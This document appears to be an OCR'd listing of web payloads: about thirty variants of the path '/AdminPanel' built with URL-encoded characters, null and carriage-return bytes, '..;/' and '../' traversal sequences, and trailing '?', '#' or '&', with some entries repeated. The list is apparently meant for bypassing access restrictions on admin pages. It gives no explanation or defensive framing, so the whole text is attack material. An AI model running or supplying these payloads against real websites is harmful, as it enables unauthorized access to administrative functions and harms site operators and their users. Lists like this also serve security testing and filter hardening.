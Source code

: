 `/v3/AdminPanel/`

`/AdminPanel/.`

`/AdminPanel%20`

`/AdminPanel%09`

`/AdminPAnel/..;/`

`/AdminPanel..;/`

`/AdminPanel;/../200-OK`

`/AdminPanel//../`

`/AdminPanel?`

`/AdminPanel??`

`/AdminPanel&`

`/AdminPanel#`

`/AdminPanel%`

`/AdminPanel%20`

`/AdminPanel%09`

`/AdminPanel../`

`/AdminPanel/../`

`/AdminPanel/..;/`

`/AdminPanel..%2f`

`/AdminPanel\..\.\`

`/AdminPanel.././`

`/AdminPanel/*..%00/`

`/AdminPanel..%0d/`

`/AdminPanel..%5c`

`/AdminPanel..\`

`/AdminPanel;`

`/AdminPanel..%ff`

`/AdminPanel%2e%2e%2f`

`/AdminPanel.%2e`

`/AdminPanel%3f`

`/AdminPanel%26`

`/AdminPanel%23`

`/AdminPanel//./axx`

